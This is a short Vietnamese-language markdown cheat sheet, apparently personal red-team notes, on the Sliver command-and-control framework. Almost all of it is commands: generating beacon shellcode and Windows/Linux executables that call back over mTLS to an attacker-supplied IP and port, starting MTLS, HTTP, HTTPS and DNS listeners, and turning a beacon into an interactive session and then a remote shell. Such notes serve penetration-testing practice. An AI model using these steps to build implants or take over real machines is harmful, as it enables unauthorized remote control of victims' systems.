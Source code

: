 # Sliver

## Setup

### Tạo payload

Sliver chia payload reverse shell thành hai loại chính đó là `Beacon` và `Session` payload

#### Beacon Shellcode

```
sliver > generate beacon --mtls <ip address>:<port> -f shellcode
```

#### Beacon Binary

```
sliver > generate beacon --mtls <ip address>:<port> --os #{os} -f #{file_format}
```

- `os`: windows | linux
- `file_format`: exe | elf

### Stager

**Tại sao phải dùng stager ?**
> Đọc trong [Stager Note](./stager.md) nhé :>

## Exploit

### Tạo Listener

#### MTLS

```
sliver > mtls
```

#### HTTP

```
sliver > http
```

#### HTTPS

```
sliver > https
```

#### DNS

```
sliver > dns
```

### Post Exploit

#### Tương tác beacon

```
sliver > beacons
sliver > use <beacon_id>
```

### Tạo session từ beacon

```
sliver (<beacon_name>) > interactive
sliver (<beacon_name>) > sessions
sliver (<beacon_name>) > use <session_id>
```

### Tạo shell từ session

```
sliver (<session_name>) > shell
```
